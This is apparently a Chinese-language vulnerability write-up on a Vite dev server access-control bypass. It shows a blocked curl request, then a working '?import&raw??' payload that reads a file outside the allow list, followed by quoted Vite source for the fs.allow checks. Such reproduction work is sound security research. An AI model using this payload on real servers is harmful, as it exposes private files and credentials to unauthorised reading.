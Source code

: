  
首先是正常去访问我们的文件  
  
   
```
┌──(root㉿kali)-[/home/lll]└─# curl "http://localhost:5173/@fs/tmp/secret.txt"    <body>      <h1>403 Restricted</h1>      <p>The request url &quot;/tmp/secret.txt&quot; is outside of Vite serving allow list.<br/><br/>- /home/lll/Desktop/vite-project<br/><br/>Refer to docs https://vite.dev/config/server-options.html#server-fs-allow for configurations and more details.</p>      <style>        body {          padding: 1em 2em;        }      </style>    </body>
```  
  
可以发现访问失败了  
  
   
  
但是如果我们使用 payload 去访问  
  
   
```
──(root㉿kali)-[/home/lll]└─# curl "http://localhost:5173/@fs/tmp/secret.txt?import&raw??"export default "top secret content\n"//# sourceMappingURL=data:application/json;base64,eyJ2ZXJzaW9uIjozLCJzb3VyY2VzIjpbInNlY3JldC50eHQ/aW1wb3J0JnJhdz8iXSwic291cmNlc0NvbnRlbnQiOlsiZXhwb3J0IGRlZmF1bHQgXCJ0b3Agc2VjcmV0IGNvbnRlbnRcXG5cIiJdLCJuYW1lcyI6W10sIm1hcHBpbmdzIjoiQUFBQSxNQUFNLENBQUMsT0FBTyxDQUFDLENBQUMsR0FBRyxDQUFDLE1BQU0sQ0FBQyxPQUFPLENBQUMsQ0FBQyJ9 
```  
  
得到了我们的内容  
  
   
## 漏洞分析与修复  
  
   
  
Vite 使用 server.fs.allow 机制控制允许访问的目录范围  
  
   
```
export function isFileServingAllowed(  config: ResolvedConfig,  url: string,): boolean/** * @deprecated Use the `isFileServingAllowed(config, url)` signature instead. */export function isFileServingAllowed(  url: string,  server: ViteDevServer,): booleanexport function isFileServingAllowed(  configOrUrl: ResolvedConfig | string,  urlOrServer: string | ViteDevServer,): boolean {  const config = (    typeof urlOrServer === 'string' ? configOrUrl : urlOrServer.config  ) as ResolvedConfig  const url = (    typeof urlOrServer === 'string' ? urlOrServer : configOrUrl  ) as string  if (!config.server.fs.strict) return true  const filePath = fsPathFromUrl(url)  return isFileLoadingAllowed(config, filePath)}function isUriInFilePath(uri: string, filePath: string) {  return isSameFileUri(uri, filePath) || isParentDirectory(uri, filePath)}export function isFileLoadingAllowed(  config: ResolvedConfig,  filePath: string,): boolean {  const { fs } = config.server  if (!fs.strict) return true  if (config.fsDenyGlob(filePath)) return false  if (config.safeModulePaths.has(filePath)) return true  if (fs.allow.some((uri) => isUriInFilePath(uri, filePath))) return true  return false}export function ensureServingAccess(  url: string,  server: ViteDevServer,  res: ServerResponse,  next: Connect.NextFunction,): boolean {  if (isFileServingAllowed(url, server)) {    return true  }  if (isFileReadable(cleanUrl(url))) {    const urlMessage = `The request url "${url}" is outside of Vite serving allow list.`    const hintMessage = `${server.config.server.fs.allow.map((i) => `- ${i}`).join('\n')}Refer to docs https://vite.dev/config/server-options.html#server-fs-allow for configurations and more details.`    server.config.logger.error(urlMessage)    server.config.logger.warnOnce(hintMessage + '\n')    res.statusCode = 403    res.write(renderRestrictedErrorHTML(urlMessage + '\n' + hintMessage))    res.end()  } else {    // if the file doesn't exist, we shouldn't restrict this path as it can    // be an API call. Middlewares would issue a 404 if the file isn't handled    next()  }  return false}function renderRestrictedErrorHTML(msg: string): string {  // to have syntax highlighting and autocompletion in IDE  const html = String.raw  return html`    <body>      <h1>403 Restricted</h1>      <p>${escapeHtml(msg).replace(/\n/g, '<br/>')}</p>      <style>        body {          padding: 1em 2em;        }      </style>    </body>  `}
```  
  